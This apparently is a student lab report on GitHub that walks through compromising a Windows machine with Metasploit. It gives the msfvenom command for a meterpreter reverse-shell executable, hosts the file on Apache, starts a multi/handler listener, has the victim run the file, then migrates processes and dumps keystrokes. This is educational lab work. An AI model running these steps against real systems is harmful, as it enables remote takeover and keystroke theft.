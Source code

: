 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### NAME:SANJAY ASHWIN P
### REG NO:212223040181
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 31 18_5f9d2595](https://github.com/user-attachments/assets/a10d10df-1055-4c9e-b4e8-2cff6b62fdd7)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 43 49_799464eb](https://github.com/user-attachments/assets/b9dc914f-6c12-434d-a4ab-9263af9ef852)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 47 07_c6e7043b](https://github.com/user-attachments/assets/562aa67f-8d76-41f0-8add-8fb8cc2cf68a)


Start apache server
sudo systemctl apache2 start
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 49 53_b962cf8d](https://github.com/user-attachments/assets/4dd21c44-bf67-47b4-a8f2-90699d018eeb)

Check the status of apache2
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 50 49_8e5f64c2](https://github.com/user-attachments/assets/49764b81-d94c-4ea1-abc4-8c91bb8bb906)

Invoke msfconsole:
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 56 44_14e8711a](https://github.com/user-attachments/assets/2207bcbb-ee1e-4c2a-a4d9-8f44fd5d48be)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![WhatsApp Image 2024-11-01 at 17 57 24_7438089c](https://github.com/user-attachments/assets/35e68da2-d561-49ec-9f6f-ca9ea8a49997)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![WhatsApp Image 2024-11-01 at 18 01 15_ea1edaed](https://github.com/user-attachments/assets/cdb145a9-a1d0-4f24-8605-5e76d7689d44)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/user-attachments/assets/1de09061-e779-4139-b93c-7a990bb402a8)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

![WhatsApp Image 2024-11-01 at 18 12 04_448ad010](https://github.com/user-attachments/assets/01044599-fd74-433d-ba7a-a96a45e2b164)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![WhatsApp Image 2024-11-01 at 18 12 46_ee3b1ab9](https://github.com/user-attachments/assets/0362e76b-955b-46e4-a561-584b86e29192)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/user-attachments/assets/4341677e-a58c-483f-af17-c58e6b61c58b)


Post Exploitation
keyscan_dump	Shows the keystrokes captured so far

![WhatsApp Image 2024-11-01 at 18 15 09_3e278d2d](https://github.com/user-attachments/assets/5ba20273-6a12-499d-8338-c0b183df5d62)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
